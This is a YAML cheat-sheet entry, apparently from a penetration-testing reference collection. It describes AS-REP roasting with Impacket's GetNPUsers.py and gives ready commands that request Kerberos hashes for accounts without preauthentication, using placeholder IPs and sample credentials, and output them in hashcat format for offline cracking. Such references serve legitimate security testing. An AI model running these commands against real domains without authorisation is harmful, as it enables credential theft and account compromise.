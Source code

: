 ```yaml
---
title: |
  Harvest non-preauth AS_REP responses for a given list of usernames
description: |
  Impacket's GetNPUsers.py will attempt to harvest the non-preauth AS_REP responses for a given list of usernames. These responses will be encrypted with the user's password, which can then be cracked offline.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username List: usernames.txt

  	Output File: hashes.txt

  Other command:

  	python3 GetNPUsers.py test.local/test:Welkom01! -request -dc-ip 10.10.10.1 -format hashcat -outputfile hashes

command: |
  python3 GetNPUsers.py test.local/ -dc-ip 10.10.10.1 -usersfile usernames.txt -format hashcat -outputfile hashes
items:
  - Username
  - Password
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

